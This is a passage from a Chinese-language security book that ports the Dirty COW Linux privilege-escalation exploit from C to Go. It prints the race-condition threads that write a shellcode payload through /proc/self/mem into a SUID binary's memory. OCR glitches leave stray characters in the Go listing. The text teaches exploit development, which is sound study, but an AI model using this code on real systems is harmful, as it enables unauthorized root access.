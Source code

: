 清单 9-7: Go中的初始化

C和Go之间的翻译非常简单。C和Go这两个代码部分保持相同的编号，以演示Go如何实现与C代码各自行相似的功能。在这两种情况下，通过定义 `uintptr` 变量来跟踪映射的内存。在Go中，将变量名声明为 `mapp`，因为与C不同，`map` 在Go中是一个保留关键字。然后初始化一个变量，用于通知线程停止处理。Go约定不是像C语言那样使用整数，而是使用带有缓冲的布尔管道。将其长度明确定义为2，因为将有两个发出信号的并发函数。接下来，为SUID可执行文件定义一个字符串，并通过将Shellcode硬编码到切片片来封装全局变量。与C版本相比，Go代码中省略了一些全局变量，这意味着将在相应的代码块中根据需要定义它们。

接下来看下 `madvise()` 和 `procselfmem()` 这两个使用竞争条件的主要函数。同样，我们将清单9-8中的C版本与清单9-9中的Go版本进行比较。

```c
void *madviseThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        c+=madvise(map,100,MADV_DONTNEED); 
    }
    printf("thread stopped\n"); 
}

void *procselfmemThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR); int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        lseek(f,map,SEEK_SET); 
        c+=write(f, str, sc_len);
    }
    printf("thread stopped\n"); 
}
```

清单 9-8: C中的竞争条件函数

```go
func madvise() {
    for i := 0; i < 1000000; i++ {
        select {
            case <- signals:u
            fmt.Println("madvise done")
            return
        default:
            syscall.Syscall(syscall.SYS_MADVISE, mapp, uintptr(100), syscall.MADV_DONTNEED)
        }
    } 
}

func procselfmem(payload []byte) {
    f, err := os.OpenFile("/proc/self/mem", syscall.O_RDWR, 0) 
    if err != nil {
        log.Fatal(err) 
    }
    for i := 0; i < 1000000; i++ { 
        select {
            case <- signals:u fmt.Println("procselfmem done") return
        default:
            syscall.Syscall(syscall.SYS_LSEEK, f.Fd(), mapp, uintptr(os.SEEK_SET))w f.Write(payload) 
        } 
    }
}
```
